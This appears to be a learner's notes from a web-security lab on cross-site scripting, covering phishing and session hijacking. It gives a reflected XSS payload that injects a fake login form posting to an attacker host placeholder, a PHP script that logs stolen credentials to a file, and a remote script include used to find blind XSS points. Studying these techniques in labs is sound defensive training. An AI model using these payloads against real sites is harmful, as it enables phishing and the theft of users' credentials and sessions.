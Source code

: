          
        
- to make a html page and access it via the maliciouse page or another words to make html object in the page via a reflected xss payload use :
    
    ```
    document.write('here write the html code for a page like facebook or google as an example');
    ```
    
    if you want to add anther payload in the same line of code at the same <script></script> then just end each command by a semicolon .
    
    like this
    
    will creat a html login form to phish the target; and also it will delete the url input place to force him to login to use the url input place
    
    ```
    document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
    ```
    
    ```
    http://10.129.112.223/phishing/index.php?url='><script>alert(window.origin)</script><"
    ```
    
    ```
    <?php
    if (isset($_GET['username']) && isset($_GET['password'])) {
        $file = fopen("creds.txt", "a+");
        fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
        header("Location: http://SERVER_IP/phishing/index.php");
        fclose($file);
        exit();
    }
    ?>
    ```
    

## session hijacking:

- session hijacking = stealing .

- **Loading a Remote Script:**
    
    ```
    <script src="http://ourIP/script.js"></script>
    ```
    
    this payload is via link
    
    to our JavaScript file
    
    - so for our situation we don't knew which input part is the part that contains the xss vulnerability so
    - we will do a clever thing we will go and make a link with each of the inputs name and for each one of the inputs part we will send it a link with its name and wait to see which of them is the one that responded and asked for the file that is called with its name and we will wait at our listener.
    